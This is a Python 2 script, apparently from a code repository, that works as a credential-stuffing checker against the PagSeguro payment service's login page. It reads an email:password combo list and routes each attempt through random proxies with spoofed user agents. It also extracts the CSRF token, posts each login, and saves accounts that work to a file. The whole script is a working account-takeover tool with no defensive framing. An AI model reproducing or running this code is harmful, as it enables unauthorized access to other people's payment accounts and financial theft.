 import requests
import random
import time
import re
from threading import Thread as thread

sessao = requests.Session();
sessao.mount('http://',requests.adapters.HTTPAdapter())
sessao.mount('https://', requests.adapters.HTTPAdapter())


try:
	COMBO_KEY = open(r'C:/Users/MICHEL/Desktop/projetos py/chkPagSeguro/comboList.txt','r')
except IOError:
	print 'Diretorio da Combo List nao foi encontrado.'

desktop_agents = ['Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
                 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
                 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
                 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_1) AppleWebKit/602.2.14 (KHTML, like Gecko) Version/10.0.1 Safari/602.2.14',
                 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36',
                 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.98 Safari/537.36',
                 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.98 Safari/537.36',
                 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36',
                 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
                 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0']
def random_headers():
    return {'User-Agent': random.choice(desktop_agents),'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'}
	
def getFormKey(sourceFont):
    m = re.search(r'"acsrfToken" value="(.*)"',sourceFont)
    form_key = m.group(1)
    return form_key

def selectProxy():
	try:
		proxys = open(r'C:/Users/MICHEL/Desktop/projetos py/chkPagSeguro/proxys.txt','r')
		list = []
		for i in proxys:
			i = i.rstrip()
			list.append(i)
		return random.choice(list).rstrip()
	except IOError:
		print 'Diretorio da proxylist nao foi encontrado.'

def validSave(email, senha):
	try:
		arqw = open('C:/Users/MICHEL/Desktop/projetos py/chkPagSeguro/validas.txt','w')
		arqw.write(email + ':' + senha)
		arqw.close()
	except IOError:
		print 'Diretorio para salvar contas validas nao foi encontrado'
	
def validProxy(proxy):
	print 'Buscando proxy'
	
	checkinProxy = ''
	MYIP = sessao.get('http://ipv4.icanhazip.com/')
	try:
		PROXY_VERIFY = sessao.get('http://ipv4.icanhazip.com/', proxies={'http':'http://' + proxy}, headers=random_headers() )
		checkinProxy = bool(re.match(r"\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b",PROXY_VERIFY.content))
		while(checkinProxy == False or str(PROXY_VERIFY.content) == MYIP):
			PROXY_VERIFY = sessao.get('http://ipv4.icanhazip.com/', proxies={'http':'http://' + selectProxy()}, headers=random_headers() )
			checkinProxy = bool(re.match(r"\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b",PROXY_VERIFY.content))
		return PROXY_VERIFY.content + ' ta boa? : ' + str(checkinProxy)
	except requests.ConnectionError, e:
		return False
		
def main():
	listaVerificados = []
	for lista in COMBO_KEY:
		EMAIL_EXPEC = ''
		PASS_EXPEC = ''
		PROXY_CORRECT = ''
		getProxy = False
		
		while (getProxy == False):
			getProxy = validProxy(selectProxy())

		lista = lista.rstrip();
		EMAIL_EXPEC = lista[:lista.find(':')].replace(' ','')
		PASS_EXPEC = lista[lista.find(':')+1:].replace(' ','')
		
		if EMAIL_EXPEC in listaVerificados:
			pass
		else:
			requisicaoGet = sessao.get('https://pagseguro.uol.com.br/acesso.jhtml')
			info = {'acsrfToken' : getFormKey(requisicaoGet.content),
					'skin' : 'ps',
					'dest' : 'REDIR|https://pagseguro.uol.com.br/hub.jhtml',
					'user' : EMAIL_EXPEC,
					'pass' : PASS_EXPEC} 
			print 'verificando: ' + EMAIL_EXPEC + ' com a proxy : ' + getProxy
			requisicaoPost = sessao.post('https://pagseguro.uol.com.br/login.jhtml',proxies= {'http':'http://' + getProxy },
										 data=info,allow_redirects=True);	
			listaVerificados.append(EMAIL_EXPEC)
			print 'verificou ' + EMAIL_EXPEC
			if 'Valor a receber' in requisicaoPost.content:		
				print('Opa a conta deu certo: ' + EMAIL_EXPEC)
				validSave(EMAIL_EXPEC, PASS_EXPEC)
			else:
				pass
		time.sleep(3)
print' 	 ______  ___  _____  _____ _____ _____ _   _______ _____ '
print'	 | ___ \/ _ \|  __ \/  ___|  ___|  __ \ | | | ___ \  _  |'
print'	 | |_/ / /_\ \ |  \/\ `--.| |__ | |  \/ | | | |_/ / | | |'
print'	 |  __/|  _  | | __  `--. \  __|| | __| | | |    /| | | |'
print'	 | |   | | | | |_\ \/\__/ / |___| |_\ \ |_| | |\ \\ \_/ /'
print'	 \_|   \_| |_/\____/\____/\____/ \____/\___/\_| \_|\___/ '


main()

